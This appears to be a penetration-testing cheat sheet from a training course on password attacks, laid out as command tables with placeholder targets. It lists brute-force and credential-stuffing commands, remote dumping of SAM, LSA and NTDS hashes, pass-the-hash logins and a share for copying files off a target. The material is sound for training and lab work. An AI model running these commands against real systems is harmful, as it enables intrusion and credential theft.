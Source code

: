 # Connecting to Target

| Command                                                                                   | Description                                                                                                            |
|-------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------------|
| `xfreerdp /v:<ip> /u:htb-student /p:HTB_@cademy_stdnt!`                                   | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol.                                  |
| `evil-winrm -i <ip> -u user -p password`                                                  | Uses Evil-WinRM to establish a Powershell session with a target.                                                       |
| `ssh user@<ip>`                                                                           | Uses SSH to connect to a target using a specified user.                                                                |
| `smbclient -U user \\\\<ip>\\SHARENAME`                                                   | Uses smbclient to connect to an SMB share using a specified user.                                                      |
| `python3 smbserver.py -smb2support CompData /home/<nameofuser>/Documents/`                | Uses smbserver.py to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host. |

# Password Mutations

| Command                                                                                  | Description                                                                                                          |
|------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------|
| `cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist`            | Uses cewl to generate a wordlist based on keywords present on a website.                                             |
| `hashcat --force password.list -r custom.rule --stdout > mut_password.list`              | Uses Hashcat to generate a rule-based word list.                                                                     |
| `./username-anarchy -i /path/to/listoffirstandlastnames.txt`                             | Users username-anarchy tool in conjunction with a pre-made list of first and last names to generate a list of potential username. |
| `curl -s https://fileinfo.com/filetypes/compressed \| html2text \| awk '{print tolower($1)}' \| grep "\." \| tee -a compressed_ext.txt` | Uses Linux-based commands curl, awk, grep and tee to download a list of file extensions to be used in searching for files that could contain passwords. |

# Remote Password Attacks

| Command                                                                                      | Description                                                                                                                  |
|----------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------------------|
| `crackmapexec winrm <ip> -u user.list -p password.list`                                       | Uses CrackMapExec over WinRM to attempt to brute force user names and passwords specified hosted on a target.                 |
| `crackmapexec smb <ip> -u "user" -p "password" --shares`                                      | Uses CrackMapExec to enumerate smb shares on a target using a specified set of credentials.                                   |
| `hydra -L user.list -P password.list <service>://<ip>`                                        | Uses Hydra in conjunction with a user list and password list to attempt to crack a password over the specified service.       |
| `hydra -l username -P password.list <service>://<ip>`                                         | Uses Hydra in conjunction with a username and password list to attempt to crack a password over the specified service.        |
| `hydra -L user.list -p password <service>://<ip>`                                             | Uses Hydra in conjunction with a user list and password to attempt to crack a password over the specified service.            |
| `hydra -C <user_pass.list> ssh://<IP>`                                                        | Uses Hydra in conjunction with a list of credentials to attempt to login to a target over the specified service. This can be used to attempt a credential stuffing attack. |
| `crackmapexec smb <ip> --local-auth -u <username> -p <password> --sam`                        | Uses CrackMapExec in conjunction with admin credentials to dump password hashes stored in SAM, over the network.              |
| `crackmapexec smb <ip> --local-auth -u <username> -p <password> --lsa`                        | Uses CrackMapExec in conjunction with admin credentials to dump lsa secrets, over the network. It is possible to get clear-text credentials this way. |
| `crackmapexec smb <ip> -u <username> -p <password> --ntds`                                    | Uses CrackMapExec in conjunction with admin credentials to dump hashes from the ntds file over a network.                     |
| `evil-winrm -i <ip> -u Administrator -H "<passwordhash>"`                                     | Uses Evil-WinRM to establish a Powershell session with a Windows target using a user and password hash. This is one type of Pass-The-Hash attack. |

# Windows Local Password Attacks
